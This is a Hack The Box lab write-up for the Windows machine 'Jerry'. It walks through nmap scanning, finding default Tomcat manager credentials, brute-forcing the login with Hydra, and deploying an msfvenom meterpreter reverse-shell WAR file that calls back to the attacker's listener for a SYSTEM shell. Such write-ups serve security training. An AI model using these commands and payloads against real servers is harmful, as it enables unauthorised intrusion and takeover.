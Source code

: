 # Jerry Writeup

This is a short writeup of HTB Jerry, an easy Windows box

## Port scanning

We start by scanning open ports on the box with nmap to see what we're dealing with. Running a TCP scan for all ports along with service/version detection, we get the following results:

```console
kali@kali:~/Desktop/htb/jerry$ nmap -sT -sV 10.10.10.95 -A -p0-65535
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 04:19 EDT
Nmap scan report for 10.10.10.95
Host is up (0.039s latency).
Not shown: 65535 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

Note: Usually I like to run a UDP scan in the background just to cover all bases. Since it is very time consuming, it makes sense to initiate the scan and proceed with further enumeration in the meantime. In this case, the UDP scan yielded no results.

From the nmap scan above, we can draw the following conclusions:

- Port 8080 open
- Runs Apache Tomcat/Coyote JSP engine 1.1
- Version: Apache Tomcat 7.0.88
- No UDP ports open
- OS: Windows (HTB gives us this information)

## Service enumeration

We're dealing with only 1 port i.e. 8080 which is supposedly running a web server. Visiting the webpage on a browser, we see the following:

![webpage-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-1.png)

On the homepage we can see "manager app" which could possibly lead us to the admin console. Clicking on that button we see that it requires us to enter a username and password:

![webpage-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-2.png)

Trying out random creds such as ```admin:admin``` lands us a 403 and we see the following:

![webpage-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-3.png)

On the 403 page, we see that for this version of Tomcat (7.0.88), the default admin credentials are ```admin:s3cret```. Trying this out on the admin login, we get access to the admin console:

![webpage-5](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-5.png)

The credentials worked and this is our most lucrative option. We can see that there is an option to deploy war files and execute them. WAR (Web Application Archive) files are basically files used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages and other resources that together constitute a web application.

Let's take a step back here and assume that we hadn't seen the default credentials on the 403. Having a quick look at how the login actually works. We fire up BurpSuite and turn intercept on to examine the traffic. Let's use the credentials ```blah:blah``` to see how it works:

![burp-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-1.png)

Looking at the requests we see that it uses Basic Auth which just base64 encodes the username and password and forwards it.

![burp-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-2.png)

We can decode the base64 string in BurpSuite as follows:

![burp-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/burp-3.png)

We can use [Hydra](https://github.com/vanhauser-thc/thc-hydra) to bruteforce the login. There are various wordlists that we can employ. A popular repository of wordlists is [SecLists](https://github.com/danielmiessler/SecLists) which contains various wordlists, one of which is default Tomcat passwords as shown below:

![hydra-1](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/hydra-1.png)

We can now initiate the Hydra bruteforce as follows:

```console
kali@kali:~/Desktop/htb/jerry$ hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-03 04:34:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-03 04:34:22
```

Concluding the service enumeration, its safe to assume that we have a very lucrative exploitation path with the admin console at our disposal. We can prioritize our exploitation paths as follows:

1. Admin console exploitation
2. Server software vulnerability assessment
3. SSH bruteforce

## Exploitation

Before we get into actual exploitation, we can do some more enumeration on the admin console now that we have access to it. This is done to understand the nature of the machine so we gain more information on how to proceed with our exploit. Exploring the admin console, we discover the following:

![webpage-6](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-6.png)

We now have the following:

- JVM Version: 1.8.0_171-b11
- JVM Vendor: Oracle Corporation
- OS Name: Windows Server 2012 R2
- OS Version: 6.3
- OS Architecture: amd64

Now that we have a decent amount of information about the machine, we can proceed to exploitation. As seen earlier, the admin has an option to upload files and execute them. The type of file as mentioned earlier is a WAR file. We can try to upload a crafted WAR payload that will spawn a shell on the machine. To do so we can use metasploit's msfvenom. First, we need to see if the WAR format is supported by msfvenom:

```console
kali@kali:~/Desktop/htb/jerry$ msfvenom --help-formats

Executable formats
asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war

Transform formats
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

**NOTE:** Executable formats will place the payload into a complete valid executable file, along with all the headers, footers, information blocks, checksums, heap options, loading instructions etc that goes along with it. Transform formats will output code suitable for copying into a script of some description, covering a wide range of scripting and higher level languages as well as some generic options as well.

Now that we know that WAR is supported, we can build our payload. We already know that we are dealing with an x64 Windows system. So we can select the x64 Windows meterpreter. We set the listening IP and port and set the file type as WAR with -f.

```console
kali@kali:~/Desktop/htb/jerry$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444  -f war -o evil.war

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of war file: 2460 bytes
Saved as: evil.war
```

As mentioned previously, WAR files are archives. We can unzip the file we generated to have a look inside:

```console
kali@kali:~/Desktop/htb/jerry$ unzip evil.war
Archive:  evil.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF
   creating: WEB-INF/
  inflating: WEB-INF/web.xml
  inflating: qswppjdamzduqkn.jsp
```

The file named qswppjdamzduqkn.jsp is most likely the one that contains our actual payload. We can now upload the WAR file to the admin console:

![webpage-7](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-7.png)

After uploading the WAR file we can now see it on the admin console as an application (/evil) that can be executed:

![webpage-8](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-8.png)

We can click on the ```/evil``` application to see if it gets executed. However, on navigating to ```/evil```, we get a 404:

![webpage-9](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-9.png)

This is probably because the WAR file, as we saw earlier, is an archive. We should point it to the actual jsp file instead that contains the payload. In order to do so, we can navigate to ```http://10.10.10.95:8080/evil/qswppjdamzduqkn.jsp``` instead. This time, it shows that the payload is being executed

![webpage-10](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/webpage-10.png)

Now we need to start a listener to catch the shell from the machine. In order to do so, we can use the Metasploit multi handler. We set the payload to ```windows/x64/meterpreter/reverse_tcp``` and set the listening IP and Port as shown:

![msf-2](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-2.png)

After running the listener and then refreshing the ```http://10.10.10.95:8080/evil/qswppjdamzduqkn.jsp``` page, we get a shell on the listener:

![msf-3](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-3.png)

Spawning a shell in the meterpreter, we see that we directly have admin access since Tomcat was running on the machine with root permissions.

![msf-4](https://github.com/Shezz7/HTB-writeups/blob/master/jerry/resources/msf-4.png)
